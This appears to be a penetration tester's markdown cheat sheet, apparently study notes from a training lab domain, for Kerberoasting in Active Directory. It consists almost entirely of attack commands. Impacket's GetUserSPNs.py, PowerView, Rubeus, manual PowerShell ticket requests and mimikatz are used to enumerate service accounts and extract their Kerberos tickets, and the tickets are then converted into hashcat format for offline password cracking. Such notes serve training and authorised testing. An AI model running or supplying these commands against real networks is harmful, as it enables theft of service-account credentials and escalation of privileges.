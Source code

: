 # 🔥 Kerberoasting

## Linux

### Kerberoasting with GetUserSPNs.py

* Listing SPN accounts:

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

* To get TGS ticket

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

Or just request works too.

## Windows

### Automated

#### Powerview

* To import and view all users

```
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

* Exporting all tickets to a CSV file

```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

* Viewing it

```
cat .\ilfreight_tgs.csv
```

### Rubeus

* Check options

```
.\Rubeus.exe
```

* To check stats:

```
.\Rubeus.exe kerberoast /stats
```

```
.\Rubeus.exe kerberoast /nowrap /tgtdeleg
```

* To get hash

```
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap    #admincount gives high-value targets
```

To get RC4 encrypted (etype 23) use `/tgtdeleg`

### Manual

* Enumerating SPNs `setspn.exe -Q */*`
* Targeting single user:

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

* Retrieving all tickets \`

```
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

* Extracting tickets from memory using mimikatz:

```
mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  
```

* Now to crack:

```
echo "<base64 blob>" |  tr -d \\n 

cat encoded_file | base64 -d > sqldev.kirbi
```

Use [Kirbi2john](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) Then modify crack\_file from using kirbi2john:

```
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Now run the output through hashcat
